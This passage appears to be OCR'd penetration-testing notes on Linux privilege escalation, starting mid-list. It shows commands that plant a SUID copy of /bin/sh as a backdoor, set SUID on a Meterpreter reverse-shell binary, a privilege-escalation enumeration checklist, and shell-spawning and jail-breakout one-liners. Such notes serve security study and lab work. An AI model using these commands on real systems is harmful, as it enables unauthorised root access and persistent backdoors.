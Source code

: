 11.	appended things to other files

12.	nano file

13.	do things like cp /bin/sh /home/restricted1/unkownendevice64 && chmod 4755

14.	give you root privs to run this shell


### Setting the SUID sticky bit

chmod 777 lin86-reverse-met-603.elf

chmod +x lin86-reverse-met-603.elf

chmod 4777 lin86-reverse-met-603.elf

#### Privilege escalation

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems

Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs


### Useful commands


####  Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

### you break out of the "jail" shell?

python -c 'import pty;pty.spawn("/bin/bash")'

echo os.system('/bin/bash')

/bin/sh -i

/bin/sh

exec /bin/bash

/bin/bash

/bin/ksh

/bin/zsh
